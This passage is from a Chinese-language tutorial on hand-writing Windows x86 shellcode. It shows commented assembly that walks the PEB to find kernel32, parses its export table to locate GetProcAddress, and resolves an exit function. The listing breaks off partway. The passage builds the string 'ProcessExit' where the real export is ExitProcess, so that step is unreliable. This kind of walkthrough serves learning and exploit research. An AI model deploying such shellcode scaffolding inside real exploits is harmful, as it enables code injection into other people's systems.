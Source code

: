 终于达成了目标。最后是收尾工作：我们需要调用`ProcessExit`正常退出程序（而不是任由EIP把代码怼到virtual page外面）。首先需要用老方法找到`ProcessExit`的函数指针。

```assembly
add esp, 0x4                    ;重置栈顶指针，这一次只用移四个字节，因为上个函数没有字符串只有个bool参数
pop edx                         ;把之前备份的GetProcAddress放到edx里，因为是最后的工作所以直接pop
pop ebx                         ;同理

;到这里，栈空间和刚开始执行这段shellcode是完全一样的

mov ecx, 0x61737365             ;"asse"
push ecx
sub dword ptr [esp + 0x3], 0x61 ;和之前一样的方法把a变成\0
push 0x636f7250                 ;"corP"
push 0x74697845                 ;"tixE"
push esp
push ebx                        ;kernel32.dll的基地址
call edx                        ;相当于调用GetProcAddress(kernel32.BaseAddress, "ProcessExit")
```

一切顺利的话，eax将被赋值为`ProcessExit`的函数地址。最后调用即可：

```assembly
xor ecx, ecx    
push ecx        ;返回码设为0，入参
call eax        ;相当于ExitProcess(0)
```

完整的汇编代码如下：
```assembly
;通过PEB信息找到导出函数目录
xor ecx,ecx             ;优雅地擦除ecx
mov eax,fs:[ecx+0x30]   ;eax = fs:[0+0x30] = fs:[0x30] = PEB
mov eax, [eax+0x0c]     ;eax = Ldr
mov eax, [eax+0x14]     ;eax = imo[0]（*.exe的imo）
mov eax, [eax]          ;eax = imo[1]（ntdll.dll的imo）
mov eax, [eax]          ;eax = imo[2]（kernel32.dll的imo）
mov ebx, [eax+0x10]     ;ebx=基地址，长期保存
mov edx, [ebx+0x3c]     ;edx=PE偏移量
add edx, ebx            ;edx=PE偏移量+基地址=PE绝对地址（PE绝对地址简称PE，其它地址同理）
mov edx, [edx+0x78]     ;edx = [PE+0x78] = 导出函数目录的偏移量
add edx, ebx            ;和刚才同理，通过加上基地址将偏移量转为绝对地址
mov esi, [edx+0x20]     ;esi=导出函数名称数组
add esi, ebx            ;同样，这个字段也是偏移量，需要加上基地址来获取绝对地址

;遍历并比较函数名称
xor ecx, ecx                    ;ecx用来当作计数器，事先置零
Get_Func:                       ;跳转标签，汇编语法糖罢了
inc ecx                         ;ecx++
lodsd                           
add eax, ebx                    ;同样要再加上基地址，转换为绝对地址
cmp dword ptr[eax], 0x50746547          ;比较[eax]和"PteG"
jnz Get_Func					        ;如果不一样就换下一个
cmp dword ptr[eax+0x4], 0x41636f72      ;对比接下来四位"rocA"
jnz Get_Func					        ;如果不一样就换下一个
cmp dword ptr[eax+0x8], 0x65726464 	    ;同理比较"erdd"
jnz Get_Func                            ;如果不一样就换下一个

;利用得到的索引获取真实顺序
mov esi, [edx+0x24]
add esi, ebx
dec ecx                 ;因为索引是从0开始，需要先减一
mov cx, [esi+ecx*2]     ;因为元素是word，只能mov cx，否则会贴进来四个字节。这会把名字顺序数组的第ecx个元素，即真实索引m，整进ecx中

;利用真实顺序找到相应的GetProcAddress函数指针
mov esi, [edx+0x1c]
```